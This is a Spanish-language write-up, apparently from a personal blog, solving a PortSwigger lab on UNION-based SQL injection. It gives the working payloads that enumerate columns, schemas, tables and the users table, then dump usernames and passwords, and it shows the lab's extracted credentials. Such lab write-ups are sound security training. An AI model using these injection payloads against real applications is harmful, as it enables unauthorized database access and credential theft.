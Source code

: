 ```yaml
---
title: SQL injection UNION attack, retrieving multiple values in a single column - portswigger
date: 2024-08-04
categories: [Write up, portswigger]
tags: [sql injection]      # TAG names should always be lowercase
---
```


![20240802233517.png](20240802233517.png)

Enumeramos el numero de las columnas

```c
'union select null,null--
```

Enumeramos las base de datos

```c
=Accessories'union select null,schema_name from information_schema.schemata--
```

Las bases de datos que tenemos son las siguientes:

```c
public
pg_catalog
```

Enumeramos las tablas:

```c
'union select null,table_name from information_schema.tables where table_schema='public'--
```

Encontramos la tabla que es `users` y luego enumeramos las columnas de la tabla

```c
Accessories'union select null,column_name from information_schema.columns where table_schema='public' and table_name='users'--
```

Las columnas que tenemos son:

```c

email
password
username
```

Las credenciales que encontramos es:

```c
Accessories'union select null,concat(username,' : ',password) from users--
administrator : 6wzxjgh4re1q66iv8rmk
wiener : wmc9w3te7d2gki61r5nn
carlos : ojko3yzladh5blf9y3jp
```

![20240803002838.png](20240803002838.png)
